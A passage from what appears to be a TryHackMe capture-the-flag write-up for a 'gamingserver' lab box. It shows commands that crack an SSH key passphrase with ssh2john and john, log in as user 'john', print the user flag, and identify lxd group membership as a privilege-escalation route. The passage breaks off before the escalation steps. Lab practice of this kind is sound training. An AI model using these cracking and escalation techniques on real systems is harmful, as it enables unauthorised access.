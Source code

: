 We can use "ssh2john" and "john" to figure out he passphrase


We use the below command

```
[parrot]─[17:50-25/06]─[/home/glack/Desktop/THM/gamingserver]
└╼glack$sudo python2 /usr/share/john/ssh2john.py secretKey > forjohn.txt
```

And run the output file using john and the "dict.lst"

```
[parrot]─[18:46-25/0 6]─[/home/glack/Desktop/THM/gamingserver]
└╼glack$john forjohn.txt --wordlist=dict.lst
```

And we find the passphrase

```
letmein          (secretKey)
```


We run the ssh command again 

```
┌[parrot]─[17:52-25/06]─[/home/glack/Desktop/THM/gamingserver]
└╼glack$ssh john@10.10.74.16 -i secretKey
```

We enter the passphrase and we get in.

We easily get the user flag

```
john@exploitable:~$ cat user.txt
a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e
```


## C. Privilege Escalation


Once I got into the machine, i tried to look around and find standard methods for privilege escalation(Sudo, SUID, capabilities,cronjobs,nfs)

But didnt find much until i saw this 

```
john@exploitable:/tmp$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```


Upon further research, I found out that lxd is a Linux container manager, and can be used to escalate my privileges into the target machine

I used this [[https://www.hackingarticles.in/lxd-privilege-escalation/]]
resource to guide me on escalating privilege

I followed the following steps
